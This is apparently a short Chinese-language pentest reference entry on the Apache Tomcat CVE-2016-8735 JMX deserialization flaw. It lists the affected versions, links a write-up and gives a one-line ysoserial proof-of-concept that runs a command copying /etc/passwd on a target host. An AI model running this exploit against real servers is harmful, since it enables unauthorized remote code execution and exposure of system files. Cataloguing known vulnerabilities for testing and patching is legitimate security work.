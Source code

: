 ## Tomcat

### CVE-2016-8735 - JmxRemoteLifecycleListener 反序列化漏洞

影响版本

* Apache Tomcat 9.0.0.M1 to 9.0.0.M11
* Apache Tomcat 8.5.0 to 8.5.6
* Apache Tomcat 8.0.0.RC1 to 8.0.38
* Apache Tomcat 7.0.0 to 7.0.72
* Apache Tomcat 6.0.0 to 6.0.47

参考链接

* [Apache Tomcat多版本远程代码执行CVE-2016-8735(附POC)](https://www.anquanke.com/post/id/85043)

Poc

```
java -cp /pentest/java/ysoserial.jar ysoserial.exploit.RMIRegistryExploit 172.17.0.2 10001 Groovy1 "cp /etc/passwd /tmp"
```

